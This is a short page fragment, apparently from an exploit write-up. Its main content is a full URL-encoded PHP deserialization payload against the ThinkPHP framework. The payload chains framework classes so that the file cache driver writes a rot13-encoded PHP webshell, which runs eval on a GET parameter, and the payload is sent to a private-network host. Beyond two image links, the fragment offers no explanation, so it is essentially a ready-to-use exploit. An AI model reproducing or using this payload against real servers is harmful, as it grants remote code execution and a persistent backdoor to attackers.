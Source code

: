 ```bash
[payload](http://192.168.246.129/public/index.php?d1no=O%3A27%3A%22think%5Cprocess%5Cpipes%5CWindows%22%3A1%3A%7Bs%3A34%3A%22%00think%5Cprocess%5Cpipes%5CWindows%00files%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A6%3A%7Bs%3A9%3A%22%00%2A%00append%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A8%3A%22getError%22%3B%7Ds%3A8%3A%22%00%2A%00error%22%3BO%3A27%3A%22think%5Cmodel%5Crelation%5CHasOne%22%3A3%3A%7Bs%3A11%3A%22%00%2A%00bindAttr%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A2%3A%22no%22%3Bi%3A1%3Bs%3A3%3A%22123%22%3B%7Ds%3A15%3A%22%00%2A%00selfRelation%22%3Bb%3A0%3Bs%3A8%3A%22%00%2A%00query%22%3BO%3A14%3A%22think%5Cdb%5CQuery%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00model%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession%5Cdriver%5CMemcached%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A%22expire%22%3Bi%3A0%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A83%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dstring.rot13%2Fresource%3D.%2Fdemo%2F%3C%3Fcuc+cucvasb%28%29%3Briny%28%24_TRG%5Bq1ab%5D%29%3F%3E%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bb%3A1%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7D%7D%7D%7Ds%3A6%3A%22parent%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession%5Cdriver%5CMemcached%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A%22expire%22%3Bi%3A0%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A83%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dstring.rot13%2Fresource%3D.%2Fdemo%2F%3C%3Fcuc+cucvasb%28%29%3Briny%28%24_TRG%5Bq1ab%5D%29%3F%3E%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bb%3A1%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7D%7Ds%3A15%3A%22%00%2A%00selfRelation%22%3Bb%3A0%3Bs%3A8%3A%22%00%2A%00query%22%3BO%3A14%3A%22think%5Cdb%5CQuery%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00model%22%3BO%3A20%3A%22think%5Cconsole%5COutput%22%3A2%3A%7Bs%3A28%3A%22%00think%5Cconsole%5COutput%00handle%22%3BO%3A30%3A%22think%5Csession%5Cdriver%5CMemcached%22%3A1%3A%7Bs%3A10%3A%22%00%2A%00handler%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A5%3A%7Bs%3A6%3A%22expire%22%3Bi%3A0%3Bs%3A12%3A%22cache_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A0%3A%22%22%3Bs%3A4%3A%22path%22%3Bs%3A83%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dstring.rot13%2Fresource%3D.%2Fdemo%2F%3C%3Fcuc+cucvasb%28%29%3Briny%28%24_TRG%5Bq1ab%5D%29%3F%3E%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3B%7Ds%3A6%3A%22%00%2A%00tag%22%3Bb%3A1%3B%7D%7Ds%3A9%3A%22%00%2A%00styles%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A7%3A%22getAttr%22%3B%7D%7D%7Ds%3A8%3A%22%00%2A%00aaaaa%22%3BN%3B%7D%7D%7D)
```
<img src="https://pic.imgdb.cn/item/611d63c84907e2d39c552b9e.png" alt="">

<img src="https://pic.imgdb.cn/item/611d63c84907e2d39c552ba4.png" alt="">

